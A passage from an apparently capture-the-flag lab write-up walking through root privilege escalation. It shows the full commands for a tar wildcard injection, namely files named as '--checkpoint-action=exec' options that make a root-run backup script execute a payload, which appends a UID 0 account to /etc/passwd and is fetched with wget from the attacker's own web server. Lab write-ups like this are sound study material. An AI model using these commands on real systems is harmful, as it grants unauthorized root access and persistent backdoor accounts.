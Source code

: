 So, i checked the backups/ directory

!["backups directory"](pictures/backups.png)

We can read backup.tgz but in fact, the file that we are interested in is backup.sh

!["backup.sh"](pictures/backupsh.png)  

***Here, we can read that tar is run with a *  
And the owner of this file is root...***

Here are the steps :
- Create a malicious payload that will be run by root with script.sh as name
- Use two file in /var/www/html with '--checkpoint=1' and '--checkpoint-action=exec=sh script.sh'

I choose to add a new user account with UID 0 directly by editing /etc/passwd  
I created a new password hash in my terminal with  
```bash
mkpasswd -m sha-512 password
```
And created my payload
```bash
echo 'newroot:$6$lZ79nakIyVBsmtlz$G.zJM6HWmLZJXizJlV.s7sAiTdPMzOwj/9x5xuQ/Bhd3scpp03GPE2R4BPHhG/dAcMu6SSEBtKR.myetPJ8ph1:0:0:root:/root:/bin/bash' >> /etc/passwd
```
I put it in a local file named script.sh and I wget it on the remote machine with the same python webserver as before
```bash
cd /var/www/html/
wget http://10.8.14.34:8000/script.sh
```

Then, I created the TAR flag files
```bash
echo something >  '--checkpoint=1'
echo something > '--checkpoint-action=exec=sh script.sh'
```

I waited till the new user appears in
```bash
cat /etc/passwd
```

Then I could 
```bash
su newroot
id
cat /root/root.txt
```
!["root.png"](pictures/root.png)

***I really enjoyed this room, thanks for that***
